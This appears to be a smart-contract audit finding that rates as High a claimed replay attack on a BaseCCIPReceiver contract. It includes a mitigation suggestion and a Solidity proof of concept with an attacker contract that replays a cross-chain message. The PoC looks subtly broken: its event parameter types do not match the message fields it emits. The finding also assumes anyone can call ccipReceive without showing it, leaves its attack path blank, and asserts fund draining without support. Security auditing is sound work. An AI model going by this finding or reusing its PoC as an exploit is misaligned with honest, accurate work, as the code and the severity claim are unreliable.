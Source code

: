 Sour Denim Alpaca

High

# Replay attack in BaseCCIPReceiver contract

### Summary

Line: https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/BaseCCIPReceiver.sol#L34

The contract does not include any mechanism to prevent replay attacks. An attacker could replay a previously valid ccipReceive message if there is no unique message identifier or nonce to prevent it.

Mitigation: Implement a nonce, timestamp, or unique message ID check within the _ccipReceive function to ensure that each message is processed only once.

### Root Cause

Replay attack guard missing.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

This could allow an attacker to drain the contract's funds or manipulate the contract state in an unintended manner.



### PoC
```solidity
 VulnerableReceiver Contract
// SPDX-License-Identifier: MIT
pragma solidity 0.8.24;

contract VulnerableReceiver is BaseCCIPReceiver {

    event MessageReceived(address indexed sender, string data);

    function _ccipReceive(Client.Any2EVMMessage memory message) internal override {
        emit MessageReceived(message.sender, message.data);
        // Additional logic processing the message
    }
}

Attacker Contract
// SPDX-License-Identifier: MIT
pragma solidity 0.8.24;

import "@chainlink/contracts-ccip/src/v0.8/ccip/libraries/Client.sol";
import "./VulnerableReceiver.sol";

contract Attacker {
    VulnerableReceiver public vulnerableReceiver;

    constructor(address _vulnerableReceiver) {
        vulnerableReceiver = VulnerableReceiver(_vulnerableReceiver);
    }

    function replayAttack(Client.Any2EVMMessage calldata message) external {
        // Directly call ccipReceive with the same message to replay it
        vulnerableReceiver.ccipReceive(message);
    }
}

```

### Mitigation

Need to Implement a nonce, timestamp, or unique message ID check within the _ccipReceive function to ensure that each message is processed only once in _ccipReceive 